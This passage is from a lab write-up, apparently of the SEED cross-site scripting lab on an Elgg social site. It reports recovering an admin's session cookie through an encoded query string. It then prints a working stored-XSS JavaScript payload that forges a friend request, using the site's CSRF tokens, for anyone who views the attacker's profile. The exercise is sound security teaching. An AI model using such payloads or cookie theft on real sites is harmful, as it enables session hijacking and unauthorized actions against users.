 The encoded query string is `/?c=Elgg%3D9pc6n0glserddopj550jc6n5j0`, so we can obtain the cookie `Elgg=9pc6n0glserddopj550jc6n5j0`, which is the cookie of the admin's session, same as the one from the previous task.

## 3.6 Becoming the Victim's Friend

In the "About Me" field of Samy's profile, insert the following code:

```html
<script type="text/javascript">
window.onload = function () {
    var Ajax=new XMLHttpRequest();
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var friend="&friend="+elgg.page_owner.guid;
    var sendurl="http://www.xsslabelgg.com/action/friends/add?"+friend+ts+token;
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```

Observation as admin:

![](images/3-6-1.png)
